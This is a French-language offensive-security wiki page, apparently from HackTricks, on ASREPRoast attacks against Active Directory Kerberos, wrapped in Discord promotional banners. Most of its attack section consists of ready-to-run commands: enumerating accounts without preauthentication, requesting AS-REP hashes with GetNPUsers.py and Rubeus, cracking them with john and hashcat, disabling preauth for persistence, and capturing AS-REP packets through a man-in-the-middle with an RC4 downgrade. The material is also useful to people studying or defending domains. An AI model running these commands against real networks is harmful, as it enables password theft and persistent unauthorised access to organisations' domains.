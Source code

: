# ASREPRoast

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Rejoignez le serveur [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) pour communiquer avec des hackers expérimentés et des chasseurs de bugs !

**Aperçus sur le hacking**\
Engagez-vous avec du contenu qui explore le frisson et les défis du hacking

**Actualités de hacking en temps réel**\
Restez à jour avec le monde du hacking en rapide évolution grâce à des nouvelles et des aperçus en temps réel

**Dernières annonces**\
Restez informé des nouvelles primes de bugs lancées et des mises à jour cruciales de la plateforme

**Rejoignez-nous sur** [**Discord**](https://discord.com/invite/N3FrSbmwdy) et commencez à collaborer avec les meilleurs hackers dès aujourd'hui !

## ASREPRoast

ASREPRoast est une attaque de sécurité qui exploite les utilisateurs qui manquent de l'**attribut requis de pré-authentification Kerberos**. Essentiellement, cette vulnérabilité permet aux attaquants de demander l'authentification d'un utilisateur auprès du Contrôleur de Domaine (DC) sans avoir besoin du mot de passe de l'utilisateur. Le DC répond alors avec un message chiffré avec la clé dérivée du mot de passe de l'utilisateur, que les attaquants peuvent tenter de craquer hors ligne pour découvrir le mot de passe de l'utilisateur.

Les principales exigences pour cette attaque sont :

- **Absence de pré-authentification Kerberos** : Les utilisateurs cibles ne doivent pas avoir cette fonctionnalité de sécurité activée.
- **Connexion au Contrôleur de Domaine (DC)** : Les attaquants ont besoin d'accéder au DC pour envoyer des demandes et recevoir des messages chiffrés.
- **Compte de domaine optionnel** : Avoir un compte de domaine permet aux attaquants d'identifier plus efficacement les utilisateurs vulnérables via des requêtes LDAP. Sans un tel compte, les attaquants doivent deviner les noms d'utilisateur.

#### Énumération des utilisateurs vulnérables (besoin d'identifiants de domaine)
```bash:Using Windows
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```
#### Demander un message AS_REP
```bash:Using Linux
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

```bash:Using Windows
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
> [!WARNING]
> AS-REP Roasting avec Rubeus générera un 4768 avec un type de chiffrement de 0x17 et un type de pré-authentification de 0.

### Crackage
```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```
### Persistance

Force **preauth** non requis pour un utilisateur où vous avez des permissions **GenericAll** (ou des permissions pour écrire des propriétés) :
```bash:Using Windows
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```
## ASREProast sans identifiants

Un attaquant peut utiliser une position de l'homme du milieu pour capturer les paquets AS-REP lorsqu'ils traversent le réseau sans dépendre de la désactivation de la pré-authentification Kerberos. Cela fonctionne donc pour tous les utilisateurs sur le VLAN.\
[ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) nous permet de le faire. De plus, l'outil force les stations de travail des clients à utiliser RC4 en modifiant la négociation Kerberos.
```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```
## Références

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

---

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Rejoignez le serveur [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) pour communiquer avec des hackers expérimentés et des chasseurs de bugs !

**Aperçus sur le hacking**\
Engagez-vous avec du contenu qui explore le frisson et les défis du hacking

**Actualités de hacking en temps réel**\
Restez à jour avec le monde du hacking en rapide évolution grâce à des nouvelles et des aperçus en temps réel

**Dernières annonces**\
Restez informé des nouvelles primes de bugs lancées et des mises à jour cruciales de la plateforme

**Rejoignez-nous sur** [**Discord**](https://discord.com/invite/N3FrSbmwdy) et commencez à collaborer avec les meilleurs hackers dès aujourd'hui !

{{#include ../../banners/hacktricks-training.md}}

